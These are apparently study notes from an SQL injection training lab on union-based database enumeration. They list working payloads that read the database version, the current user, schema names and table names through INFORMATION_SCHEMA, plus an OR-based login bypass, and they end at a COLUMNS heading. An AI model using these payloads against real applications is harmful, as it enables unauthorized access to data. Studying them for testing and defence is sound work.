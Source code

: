 ```admi2' OR id = 5)-- ```

```cn' UNION select 1,2,3,4-- -```

```cn' UNION select 1,@@version,3,4-- -```

Note, we cannot place our injection at the beginning (the select 1), since it will not display. We have to displace the 2,3, or 4.

We test a union injection, and find out we have 4 columns in our target database.

```cn' UNION SELECT 1, user(), 3, 4-- -```

# Database Enumeration

![sql injection 1](sql-injection-fundamentals-2.png)

There are three key things we want to enumerate:

all databases, all tables in a database, and each column in a table.

Most databases have an INFORMATION_SCHEMA database which contains metadata about other databases. We can use dot notation to reference outside databases.

```SELECT * FROM INFORMATION_SCHEMA.SCHEMATA;``` to enumerate everything

```SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;``` to enumerate databases names

We can use SQL injection to enuemrate via payloads

```cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -```

```cn' UNION select 1,database(),2,3-- -``` to enumerate current database.

```
TABLES

Before we dump data from the dev database, we need to get a list of the tables to query them with a SELECT statement. To find all tables within a database, we can use the TABLES table in the INFORMATION_SCHEMA Database.

The TABLES table contains information about all tables throughout the database. This table contains multiple columns, but we are interested in the TABLE_SCHEMA and TABLE_NAME columns. The TABLE_NAME column stores table names, while the TABLE_SCHEMA column points to the database each table belongs to. This can be done similarly to how we found the database names. For example, we can use the following payload to find the tables within the dev database:
```

To enumerate tables:
```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

```
COLUMNS
